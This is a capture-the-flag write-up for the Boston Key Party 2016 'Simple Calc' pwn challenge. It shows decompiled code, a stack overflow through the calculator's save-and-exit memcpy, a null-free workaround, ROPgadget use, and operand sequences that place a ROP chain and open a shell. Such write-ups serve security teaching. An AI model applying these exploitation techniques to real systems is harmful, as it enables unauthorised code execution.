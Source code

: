 # Simple Calc
*(pwn, solved by 186)*  
> what a nice little calculator!   
https://s3.amazonaws.com/bostonkeyparty/2016/b28b103ea5f1171553554f0127696a18c6d2dcf7  
simplecalc.bostonkey.party 5400

I teamed up with [@kierk](https://github.com/kierk) for this challenge.

We're given an ELF64 binary. Opening it up in IDA and running the decompiler reveals to us:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // rdi@1
  int result; // eax@3
  const char *v5; // rdi@4
  __int64 v6; // rax@4
  char v7; // [sp+10h] [bp-40h]@14
  int v8; // [sp+38h] [bp-18h]@5
  int v9; // [sp+3Ch] [bp-14h]@1
  __int64 v10; // [sp+40h] [bp-10h]@4
  int i; // [sp+4Ch] [bp-4h]@4

  v9 = 0;
  setvbuf(stdin, 0LL, 2LL, 0LL);
  v3 = stdout;
  setvbuf(stdout, 0LL, 2LL, 0LL);
  print_motd(v3);
  printf((unsigned __int64)"Expected number of calculations: ");
  _isoc99_scanf((unsigned __int64)"%d");
  handle_newline("%d", &v9);
  if ( v9 <= 255 && v9 > 3 )
  {
    v5 = (const char *)(4 * v9);
    LODWORD(v6) = malloc(v5);
    v10 = v6;
    for ( i = 0; i < v9; ++i )
    {
      print_menu(v5);
      v5 = "%d";
      _isoc99_scanf((unsigned __int64)"%d");
      handle_newline("%d", &v8);
      switch ( v8 )
      {
        case 1:
          adds("%d");
          *(_DWORD *)(v10 + 4LL * i) = dword_6C4A88;
          break;
        case 2:
          subs("%d");
          *(_DWORD *)(v10 + 4LL * i) = dword_6C4AB8;
          break;
        case 3:
          muls("%d");
          *(_DWORD *)(v10 + 4LL * i) = dword_6C4AA8;
          break;
        case 4:
          divs("%d");
          *(_DWORD *)(v10 + 4LL * i) = dword_6C4A98;
          break;
        default:
          if ( v8 == 5 )
          {
            memcpy(&v7, v10, 4 * v9);
            free(v10);
            return 0;
          }
          v5 = "Invalid option.\n";
          puts("Invalid option.\n");
          break;
      }
    }
    free(v10);
    result = 0;
  }
  else
  {
    puts("Invalid number.");
    result = 0;
  }
  return result;
}
```

It seems the program is infact, a simple calc. The program can add, subtract, multiply, or divide for us. 
Looking deeper into the program's functions reveals that there's nothing really too interesting, summarized 
here:

* print_motd - a simple 1 line `printf`, nothing exploitable
* handle_newline - does `getchar` until a `\0` or a `\n`, perhaps buggy, but doesn't seem exploitable
* print_menu - simple `printf`s, nothing exploitable
* adds, subs, muls, divs - do basic arithmetic of two arguments, the arguments are limited to > 39, for 
some reason. It seems you can cause integer overflows here perhaps. The interesting thing in these is that 
result of the functions seems to get put into the global data section, `.bss`.

The `main` function allows us 5 options, the 4 basic math operators, and a save and exit. The save and exit 
is particularly interesting. The save and exit option does a `memcpy` of global memory onto the stack. 
However, there was only 11 dwords allocated for the copy operation by the stack. If we ask main for more 
than 11 operations, prompted here: `printf((unsigned __int64)"Expected number of calculations: ");`, then 
we'll have a simple stack buffer overflow. With that, we can overwrite the return address, and initiate a 
ropchain. 

There is one other interesting point here, and that's the call to `free()`. Initially we ran into the 
problem of `free()` failing, and causing a segmentation fault when we were playing with the program with 
over 11 operations. That's because we kept spamming the global memory with the values "40..41..42..43..44", 
and `free()` would try to free the memory located at `0x0000000000000059`. We were stuck, but we guessed 
perhaps `free()` doesn't fail for 0 or null, and that turned out to be true, as documented here:

>The free function causes the space pointed to by ptr to be deallocated, that is, made available for 
further allocation. If ptr is a null pointer, no action occurs.

So we can simply make sure the 19th value copied onto the stack is `0x0000000000000000`.

So let's create this ropchain, luckily the binary is gigantic, and has everything we need. Running 
[ropgadget](https://github.com/JonathanSalwan/ROPgadget) (also included in my 
[sec-tools](https://github.com/eugenekolo/sec-tools)) on the binary produces for us an already complete 
ropchain:

```
ropgadget --binary b28b103ea5f1171553554f0127696a18c6d2dcf7 --ropchain
> https://gist.github.com/eugenekolo/d07741d6e7b261b3c339#file-ropchain-py
```

Now, we have to get that chain onto the stack, and we're set. We have control of a global array in memory 
that gets copied onto the stack. Getting the exact bytes we want into that global array is a bit tricky. We 
have to use one of the operations of the calculator (`sub` is my favourite), with specially crafted 
operands. The result of that calculation will be put into the global array. *This part is a bit tricky in 
that it takes 2 operations of the calculator to fill 64-bit blocks in memory that the program uses (due to 
it being a 64-bit elf) - the calculations return 32-bit numbers.* So, we end up with a chain of operations 
that looks like this:

```
2          # Subtract operation
4602868
100        # Result = 4602768

2          # Subtract operation
100
100        # Result = 0

2          # Subtract operation
4602868
100        # Result = 4602768

2          # Subtract operation
100
100        # Result = 0

...

5 # Save and exit operation
```

That will result in `0x0000000000463B90` and `0x0000000000463B90` quad-words in the global memory.

The global array is then copied onto the stack with a `save and exit`. The copying overwrites the return 
address on the stack, and begins our ropchain.

Now we have to somehow get the entire ropchain into memory with some calculator operations. I went with a 
low-tech pwning script for this exploitation. I wrote a 
[pwn\_script](https://gist.github.com/eugenekolo/d07741d6e7b261b3c339#file-pwn-py) that outputted the above 
chain of operations, newlines included. When the 
[pwn_header](https://gist.github.com/eugenekolo/d07741d6e7b261b3c339#file-pwn_header-py) (to initiate 254 
operations, and make sure `free()` frees `0x0`) and the output of the 
[pwn\_script](https://gist.github.com/eugenekolo/d07741d6e7b261b3c339#file-pwn-py) is copied into the 
remote session of the challenge, `nc simplecalc.bostonkey.party 5400`, a series of subtraction operations 
with different operands will occur. Finally a `5` will be passed to the remote session, and cause a `save 
and exit`. That will kick off the ropchain now in the `.bss` section, revealing to us this tasty shell:

```
$ ls
key
run.sh
simpleCalc
simpleCalc_v2
socat_1.7.2.3-1_amd64.deb
$ cat key
BKPCTF{what_is_2015_minus_7547}
```

